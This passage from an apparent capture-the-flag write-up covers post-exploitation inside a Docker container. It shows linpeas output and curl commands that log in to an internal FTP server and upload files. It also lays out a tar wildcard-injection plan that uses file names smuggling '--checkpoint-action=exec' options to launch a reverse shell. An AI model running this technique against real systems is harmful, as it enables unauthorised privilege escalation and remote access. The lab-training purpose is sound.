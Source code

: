 Also, by using `linpeas` bash script, we can see that we're in a docker container.

**Linpeas Result:**
```
[+] Is this a container? .......... Looks like we're in a Docker container
[...]
[+] Hostname, hosts and DNS
Jeff
[...]
172.20.0.6	Jeff
[...]
[+] .sh files in path
/usr/local/bin/docker-entrypoint.sh
[...]
[+] Backup files?
-rw-r--r-- 1 root root 575 May 18  2020 /var/www/html/ftp_backup.php
```

We can use `curl` to login to `172.20.0.1` FTP server:

```
www-data@Jeff:/$ curl -P - 'ftp://backupmgr:[Redacted]@172.20.0.1/'
drwxr-xr-x    2 1001     1001         4096 May 18  2020 files
```

As we can see, we're successfully login as user `backupmgr`, and saw `files` in the FTP server.

Next, we can list the `files` directory via `curl`:

```
www-data@Jeff:/$ curl -P - -u 'backupmgr:[Redacted]' ftp://172.20.0.1/files/
```

However, The `files` directory is empty.

Next, we can test we're able to upload any files or not:

```
www-data@Jeff:/tmp$ echo "test" > test.txt
www-data@Jeff:/tmp$ curl -T test.txt -P - -u 'backupmgr:[Redacted]' ftp://172.20.0.1/files/
[...]
www-data@Jeff:/tmp$ curl -P - -u 'backupmgr:[Redacted]' ftp://172.20.0.1/files/
-rwxr-xr-x    1 1001     1001            5 Jul 19 06:38 test.txt
```

As we can see we're able to upload any files.

At this point, I guess the host has a cronjob that is running `tar` or something, with a wildcard to backup all the files in the `files` directory. We can abuse that to do privilege escalation.

> GTFOBins: https://gtfobins.github.io/gtfobins/tar/

To do so, we can: 
1. Create a bash reverse shell.
2. Create two files: `--checkpoint=1` and `--checkpoint-action=exec=bash revshell.sh`.

This is because the files that we created will be interpreted as options for the `tar` command, to ultimately execute something like a reverse shell.
